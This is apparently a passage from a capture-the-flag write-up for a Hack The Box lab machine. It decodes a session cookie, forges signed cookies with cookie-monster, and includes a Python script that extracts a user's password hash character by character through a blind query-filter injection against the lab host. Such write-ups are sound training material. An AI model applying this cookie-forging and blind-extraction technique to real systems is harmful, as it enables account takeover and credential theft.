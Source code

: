     echo 'eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==' | base64 -d

and obtain taht:

    {"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"test123"}}

let's modify the coockie a bit and try signing our own with `cookie-monster`.
<span class="underline">Cookie.json</span>

    {"user": {"username": {"contains": "WESLEY"}}

    ./cookie-monster.js -e -f ~/CTF/HTB/Download/loots/cookie.json -k "<redact>" -n "download_session"
                   _  _
                 _/0\/ \_
        .-.   .-` \_/\0/ '-.
       /:::\ / ,_________,  \
      /\:::/ \  '. (:::/  `'-;
      \ `-'`\ '._ `"'"'\__    \
       `'-.  \   `)-=-=(  `,   |
           \  `-"`      `"-`   /
    
    [+] Data Cookie: download_session=<redact>
    [+] Signature Cookie: download_session.sig=<redact>

Instead, let us now try to automate with a `python script` and a particular `GraphQl querry` to look for the leak of the password hash

    #!/usr/bin/env python3
    import json, subprocess, re, string, requests
    
      regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"
    
      def writeJson(j):
          with open("cookie.json", "w") as f:
              f.write(json.dumps(j))
    
      def generateAndSign(startsWith):
          j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
          writeJson(j)
          out = subprocess.check_output(["./cookie-monster.js", "-e", "-f", "cookie.json", "-k", "<redacted>", "-n", "download_session"]).decode().replace("\n"," ")
          matches = re.findall(regex, out, re.MULTILINE)[0]
          return matches
    
      if __name__ == "__main__":
          passwd = ""
          alphabet="abcdef"+string.digits
    
          for i in range(32):
              for s in alphabet:
                  p = passwd + s
                  (download_session, sig) = generateAndSign(p)
                  cookie = {"download_session": download_session, "download_session.sig": sig}
                  print(p, end='\r')
                  r = requests.get('http://download.htb/home/', cookies=cookie)
                  if len(r.text) != 2174:
                      passwd = p
                      break
    